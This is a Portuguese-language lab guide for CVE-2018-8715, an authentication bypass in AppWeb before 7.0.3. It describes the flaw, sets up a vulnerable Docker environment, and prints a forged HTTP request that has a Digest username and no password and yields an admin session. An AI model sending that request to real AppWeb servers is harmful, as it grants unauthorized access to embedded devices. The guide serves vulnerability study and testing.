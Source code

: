 # AppWeb Authentication Bypass vulnerability (CVE-2018-8715)

AppWeb é um servidor da Web incorporado baseado em um contrato GPL de código aberto que foi desenvolvido e mantido pela Embedthis Software LLC. Ele é escrito em C/C++ e pode ser executado em praticamente qualquer sistema operacional moderno. Obviamente, ele visa fornecer um contêiner de aplicativos da Web para dispositivos incorporados.

O AppWeb pode ser configurado para autenticação, que inclui os três métodos de autenticação a seguir:

- `basic`, autenticação básica HTTP tradicional
- `digest`, autenticação básica HTTP aprimorada. Neste modo, o Cookie será usado para autenticação em vez de `Authorization`.
- `form`, Autenticação de formulário baseada em HTML

Nas versões Appweb anteriores a 7.0.3, tem uma falha lógica relacionada à função authCondition em `http/httpLib.c`. Com uma solicitação HTTP forjada, é possível ignorar a autenticação para os tipos de login `form` e `digest`.

Link de referência:

- https://ssd-disclosure.com/index.php/archives/3676

## Ambiente de vulnerabilidade

Inicie um servidor Appweb 7.0.1 com autenticação `digest` executando o seguinte comando:

```
docker-compose up -d
```

Para acessar `http://your-ip:8080`, você precisa digitar a senha da sua conta.

## Explorando

O nome de usuário atual é `admin`, então você pode usar a seguinte solicitação para ignorar a autenticação:

```
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=admin


```

Como você pode ver, como não passamos no campo de senha, ocorreu o erro do servidor com um `200 status code` e o cabeçalho de configuração da sessão:

![](1.png)

A página pode ser acessada normalmente com este cabeçalho de sessão:

![](2.png)
